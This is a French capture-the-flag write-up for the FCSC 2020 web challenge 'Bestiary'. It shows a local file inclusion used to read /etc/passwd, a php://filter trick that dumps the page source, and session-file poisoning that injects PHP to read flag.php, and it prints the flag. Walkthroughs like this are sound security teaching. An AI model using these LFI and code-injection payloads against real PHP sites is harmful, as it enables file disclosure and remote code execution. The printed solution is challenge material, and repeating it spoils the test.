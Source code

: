 # Bestiary

Auteur : Ewaël

**Bestiary** est un des challenges web à 100 points du FCSC 2020 et dont voici l'enoncé:

![Bestiary](bestiary.png)

Le lien menant sur une page avec un bestiaire qui regroupait des informations sur la créature choisie.

![Index.php](index.png)

La première chose que je remarque est la manière dont la créature choisie est envoyée dans la requête: par le paramètre `monster` dans l'URL. Je teste alors directement `monster=flag` et je vois que rien ne s'affiche là où `monster=test` renvoie l'erreur suivante:

![monster=test](test.png)

C'est ainsi que je suis parti sur ma première piste: une simple LFI. En effet, `
Warning: include(/usr/local/lib/php/test): failed to open stream: No such file or directory in /var/www/html/index.php on line 33` me fait clairement penser que le serveur se contente d'afficher la page demandée, et j'imagine que si le mot *flag* est filtré, on peut quand même trouver d'autres informations intéressantes. Je commence par vérifier ma théorie en allant chercher des fichiers généralement croustillants, et effectivement, ça fonctionne:

![/etc/passwd](passwd.png)

Le problème, c'est que je n'en tire pas grand chose. Pareil du côté des hosts, fausse piste. En regardant les possibilités qu'offre la LFI, je tombe sur la bonne piste. En effet, la faille à exploiter est une application spécifique de LFI: l'utilisation des filtres php. Je comprends qu'il est possible de lire le code php de la page `index.php` grâce à cette page:

[http://pims.tuxfamily.org/blog/2010/05/nouvelle-technique-de-lfi-les-filtres-php](http://pims.tuxfamily.org/blog/2010/05/nouvelle-technique-de-lfi-les-filtres-php/)

J'essaie donc de passer par le base 64 en envoyant `/index.php?monster=php://filter/read=convert.base64-encode/resource=index.php` et ça fonctionne, on décode la chaine renvoyée et on récupère notre joli *index.php*:

```php
<?php
	session_save_path("./sessions/");
	session_start();
	include_once('flag.php');
?>
<html>
<head>
	<title>Bestiary</title>
</head>
<body style="background-color:#3CB371;">
<center><h1>Bestiary</h1></center>
<script>
function show()
{
	var monster = document.getElementById("monster").value;
	document.location.href = "index.php?monster="+monster;
}
</script>

<p>
<?php
	$monster = NULL;

	if(isset($_SESSION['monster']) && !empty($_SESSION['monster']))
		$monster = $_SESSION['monster'];
	if(isset($_GET['monster']) && !empty($_GET['monster']))
	{
		$monster = $_GET['monster'];
		$_SESSION['monster'] = $monster;
	}

	if($monster !== NULL && strpos($monster, "flag") === False)
		include($monster);
	else
		echo "Select a monster to read his description.";
?>
</p>

<select id="monster">
	<option value="beholder">Beholder</option>
	<option value="displacer_beast">Displacer Beast</option>
	<option value="mimic">Mimic</option>
	<option value="rust_monster">Rust Monster</option>
	<option value="gelatinous_cube">Gelatinous Cube</option>
	<option value="owlbear">Owlbear</option>
	<option value="lich">Lich</option>
	<option value="the_drow">The Drow</option>
	<option value="mind_flayer">Mind Flayer</option>
	<option value="tarrasque">Tarrasque</option>
</select> <input type="button" value="show description" onclick="show()">
<div style="font-size:70%">Source : https://io9.gizmodo.com/the-10-most-memorable-dungeons-dragons-monsters-1326074030</div><br />
</body>
</html>
```

Je réalise tout de suite qu'effectivement le mot "flag" était bien filtré, j'ai d'ailleurs d'abord foncé tête baissée sur ce problème avant de réaliser que la solution n'était pas là. En effet ce qui m'intéresse se situe dans ces lignes:

```php
<?php
	session_save_path("./sessions/");
	session_start();
	include_once('flag.php');
?>
```

Après recherches sur ce `session_save_path` je comprends qu'on peut accéder à un fichier potentiellement intéressant dans `sessions/sess_b112ccb116944fa18da40b335829e4ae`, "b112ccb116944fa18da40b335829e4ae" étant mon cookie *PHPSESSID*. On trouve sur cette page simplement la chaine contenant notre dernière requête, dans mon cas: `monster|s:4:"test";`.

Ainsi j'ouvre un autre onglet pour envoyer la requête avec le payload, et je garde cet onglet pour rafraîchir la page une fois le payload envoyé, afin de voir le résultat. J'envoie donc d'abord `/index.php?monster=<?php%20echo%20file_get_contents("flag.php");%20?>` afin d'afficher le flag, puis je retourne sur l'onget `/index.php?monster=sessions/...` puis dans le code source, et surprise, voilà le flag:

![flag](flag.png)

`FCSC{83f5d0d1a3c9c82da282994e348ef49949ea4977c526634960f44b0380785622}`

